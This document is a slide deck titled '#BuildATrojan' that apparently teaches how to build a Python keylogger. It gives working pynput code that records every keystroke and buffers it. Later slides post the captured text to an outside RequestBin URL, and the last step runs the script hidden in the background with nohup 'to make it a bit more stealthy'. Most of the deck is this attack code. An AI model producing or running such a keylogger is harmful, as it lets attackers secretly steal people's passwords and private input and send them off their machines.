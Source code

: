 class: center, middle

# trojan.saurabhn.com

---
class: center, middle

# #BuildATrojan

---

# Here's the Agenda

1. History
2. The virus
3. Building one

---
# History

.center[![Trojan](https://allthatsinteresting.com/wordpress/wp-content/uploads/2021/12/still-from-troy.png)]

---
class: center, middle
# Trojan Virus

.center[![Trojan](https://autodesk.blogs.com/.a/6a00d8341bfd0c53ef01b8d29a32e9970c-pi)]

---
class: center, middle
# Building a Trojan

---
### Step 1: Lets print all keystrokes to the console


```python
from pynput.keyboard import Key, Listener

def on_press(key):
    print(str(key))

with Listener(on_press=on_press) as listener:
    listener.join()
```

---
### Step 2: Lets print a line to the console when a key is pressed

```python
from pynput.keyboard import Listener
keys = ''
def send_keys():
    global keys
    print(keys)
    keys = ''

def on_press(key):
    global keys
    str_key = str(key)
    if str_key == "Key.tab":
        str_key = '\t'
    elif str_key == "Key.enter":
        str_key = '\n'
    elif str_key == "Key.space":
        str_key = ' '
    elif str_key == "Key.backspace":
        str_key = ' bspace '
    elif "Key" in str_key:
        str_key = str_key.replace("Key.", "")
        str_key = f" {str_key} "
    keys += str_key.strip('\'')
    if len(keys) >= 20:
        send_keys()

with Listener(on_press=on_press) as listener:
    listener.join()
```

---

### Step 3: Lets create a request bin

- Open [Request bin](https://requestbin.net/)

- Click **Create a RequestBin** 
---
### Step 4: Sending data to the bin
```python
from pynput.keyboard import Key, Listener
import requests
keys = ''
request_bin_url = 'https://{request bin url}'
def send_keys():
    global keys
    print(keys)
    requests.post(request_bin_url, data=keys)
    keys = ''
def on_press(key):
    global keys
    str_key = str(key)
    if str_key == "Key.tab":
        str_key = '\t'
    elif str_key == "Key.enter":
        str_key = '\n'
    elif str_key == "Key.space":
        str_key = ' '
    elif str_key == "Key.backspace":
        str_key = ' bspace '
    elif "Key" in str_key:
        str_key = str_key.replace("Key.", "")
        str_key = f" {str_key} "
    keys += str_key.strip('\'')
    if len(keys) >= 20:
        send_keys()

with Listener(on_press=on_press) as listener:
    listener.join()
```

---
### Step 5: Lets make it a bit more stealthy

```bash
nohup python3 send_line.py &
```

---
class: center, middle

# Any questions?
